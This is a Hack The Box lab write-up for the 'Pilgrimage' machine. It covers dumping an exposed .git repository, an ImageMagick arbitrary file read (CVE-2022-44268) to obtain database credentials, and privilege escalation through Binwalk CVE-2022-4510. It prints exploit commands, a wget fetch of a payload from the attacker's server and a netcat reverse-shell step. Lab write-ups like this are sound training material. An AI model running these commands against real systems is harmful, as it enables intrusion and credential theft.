 ## Pilgrimage - Linux - Easy
### Reproduction
**Vulnerability Exploited**: Misconfiguration - Exploitation  

**System Vulnerabilities**:Kernel - Linux 5.10.0-23-amd64 - 10.10.11.219

**Vulnerabilities Explaination**: Misconfiguration lead to Arbitrary File Read (LFI) lead to RCE/ACE  

**Previlege Escalation Vulnerabilities**: Binwalk - CVE-2022-4510  

**Vulnerabilities Fix**: Update lasted version binwalk, Re-configuration information leaked.  

**Severity**: Critical

**Details**  
***Gathering&Exploitation***  
![dirsearch](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/dirsearch.PNG?raw=true)

Firstly, we using `dirsearch` tool to scan this server, we got `.git` link by misconfiguration leaked.  
From information we gathered by `dirsearch`, use `git dumper` tool dump all file from `pilgrimage.htb/.git`   
![dumping](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/git-dump.PNG?raw=true)  
After dump data from src `.git`, access `dumped` folder, read `login.php` back-end, got db name and db location use to  
get username and password login to web server `sqlite:/var/db/pilgrimage`  
![db-information](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/db-location.PNG?raw=true)  
On recently directory, we got `magick` ImageMagick 7.1.0-49 tool, got [CVE-2022-44268](https://github.com/Sybil-Scan/imagemagick-lfi-poc) Arbitrary File Read.  
use command `python3 generate.py -f "/var/db/pilgrimage" -o exploit.png`, upload exploit.png to website, shrink 
`http://pilgrimage.htb/` and download this png, using `exiftool <img.png> -b` got hex code  
![hex code](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/exiftool.PNG?raw=true)  
use [CyberChef](https://gchq.github.io/CyberChef/) to decode hext get readable data(sqlite).  
![sqli-readable-data](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/readable-message.PNG?raw=true)
use sqlitebrowser retrieving data from sqlite db file. got username and password of `emily` account.  
![ssh-account](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/user-pass.PNG?raw=true)  
Try to ssh emily@ip with password, got shell.  
***PE***  
I'm trying upload `linpeas.sh`, got some CVE but POC not work althought all of them `It work!`  
![CVE-2022-0487](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/cve%202022-0487.PNG?raw=true)  

Continues, i'm trying monitoring `pspy64` process of this machine, `oh Crap!` got a `malwarescan.sh` script running on process, read source file, they using `binwalk` while processing file upload, check version of binwalk we got `Binwalk v2.3.2` - exploitable [CVE-2022-4510](https://www.exploit-db.com/exploits/51249).   
![Binwalk-processing file](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/binwalk-read.PNG?raw=true)  
Using CVE-2022-4510, Create a payload PE `python3 51249.py your-any-images.png your-ip port`, on vulnerable machine at `/var/www/pilgrimage.htb/shrunk/`  
upload this payload on directory, i'm using python simple server to wget this payload from vulnerable machine `wget <myserver>:8000/payload.png` and netcat on payload port  
![PE-sucessfully](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/root.PNG?raw=true)

Rooted!  

***Flex***  
https://www.hackthebox.com/achievement/machine/1604413/549 












